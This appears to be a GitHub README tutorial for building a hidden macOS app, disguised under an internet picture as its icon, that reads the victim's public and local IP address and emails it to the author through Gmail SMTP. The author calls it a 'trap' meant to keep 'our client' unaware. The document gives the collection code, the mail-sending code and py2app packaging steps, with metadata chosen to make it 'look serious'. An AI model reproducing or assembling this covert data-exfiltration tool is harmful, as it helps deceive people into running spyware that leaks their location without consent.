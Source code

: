 # <p id="UP">Do you want to create an app without interface for mac?</p>

> The idea of this application will be banal and at the same time interesting. We will receive the IP address of the device and send it to the gmail. In order for our client not to know about what is happening, I propose to hide our trap under the guise of an image taken from the Internet.

## <p align="center">Give thanks : 5168 7450 1701 5535 <a href="https://en.privatbank.ua/all-ways-to-receive-send-an-international-transfer"><img src="https://upload.wikimedia.org/wikipedia/uk/f/ff/%D0%9B%D0%BE%D0%B3%D0%BE%D1%82%D0%B8%D0%BF_%D0%9F%D1%80%D0%B8%D0%B2%D0%B0%D1%8224.png" width = "25" alt="Privat Bank UA"> </a></p>

### let's start parsing the code, which I added to a separate [__sketch.ipynb__](https://github.com/syroiezhin/console2app/blob/main/sketch.ipynb) file for your convenience.

- [X] First of all, let's start with the picture.
1. We can take it directly from the internet.
```python
from PIL import Image
from requests import get
Image.open(get("https://static.ngs.ru/news/2015/99/preview/6f3e934e7e2d0402bdf8113262ea14420b7da035_640.jpg", stream=True).raw).show()
```
2. We don't have to upload it to the app file, this is at your discretion, but we will set the icon for the application with the same image, so:
```python
from PIL import Image
Image.open("image.jpeg").show()
```
- [X] There are various packages for sending emails, but they all use __smtplib__.
```python
server = SMTP(smtp, 587)
server.starttls()
server.login(sender, application_passwords)
msg = MIMEText(mail,"html")
msg["Subject"] = subject
msg['From'] = sender
msg['To'] = destination
server.sendmail(sender, destination, msg.as_string())
```
> Be sure to create your password for your sender mail using [the link provided](https://myaccount.google.com/security#:~:text=chevron_right-,%D0%9F%D0%B0%D1%80%D0%BE%D0%BB%D1%8C%20%D0%B8%D0%B7%D0%BC%D0%B5%D0%BD%D0%B5%D0%BD,-24%20%D0%B8%D1%8E%D0%BB.%20%C2%B7%20%D0%A3%D0%BA%D1%80%D0%B0%D0%B8%D0%BD%D0%B0).
- [X] For orientation in letters, I suggest adding time.
1. As you know, many people use the __datetime__ library to get time data from a computer.
```python
from datetime import datetime
print( datetime.now().strftime("%d.%m.%Y - %H:%M:%S") )
```
2. I suggest using a more convenient way without loading extra libraries into the project.
```python
from os import popen
popen('date').read()
```
- [X] We need the __os__ library to receive a response from the terminal.
1. To get global ip:
```python
popen("curl ifconfig.me").read().strip()
```
2. To get local ip:
```python
popen("ipconfig getifaddr en0").read().strip()
```
> There are other ways to get this information, but I think this is the most elegant way.

### It remains to issue a __setup__ file to get a working application:

- [X] Install:
```python
pip install py2app
```
- [X] We go to the desired directory of the program using cd: `cd Desktop/NameFolder/FolderProject`
- [X] Make sure the required py is in your directory with the command: `ls`
- [X] Create setup.py with:
```
py2applet --make-setup nameProject.py
```
- [X] Let's analyze the changes made to the setup.py file:
1. Come up with a name for the program; specify the file of our program; we will make the entire list of additional programs, if such were used; we specify the entire list of libraries that is not included in the list of the standard library; and be sure to remember the icon.
```python
from setuptools import setup

APP_NAME = "envoy"
APP = ['agent.py']
DATA_FILES = []
OPTIONS = {
    'includes': ['PIL','smtplib','email'],
    'packages': ['PIL','smtplib','email'],
    'iconfile':'image.jpeg'
}
```
2. Now we can include [a description](https://docs.python.org/3/distutils/apiref.html) of this application to make it look serious:
```python
setup(
    app=APP,
    name=APP_NAME,
    data_files=DATA_FILES,
    setup_requires=['py2app'],
    options={'py2app': OPTIONS},

    version='1.0',
    description='scan ip',
    long_description="Sending ip to mail from a running device",

    author='@NEU3RON',
    license="Syroiezhin",
    author_email='v.syroiezhin@gmail.com',
    url="https://github.com/syroiezhin",
)
```
- [X] Сongratulations, now save the change and type the final command into the terminal of the file:
```
python3 setup.py py2app
```
- [X] In case of error "No such file or directory: ... zmq/.dylibs" you will have to reinstall first by deleting:
```
conda remove zeromq
```
- [X] ... and then install without errors getting the result after you try again (`python3 setup.py py2app`).
```
conda install zeromq
```
> 

[⇪](#UP)

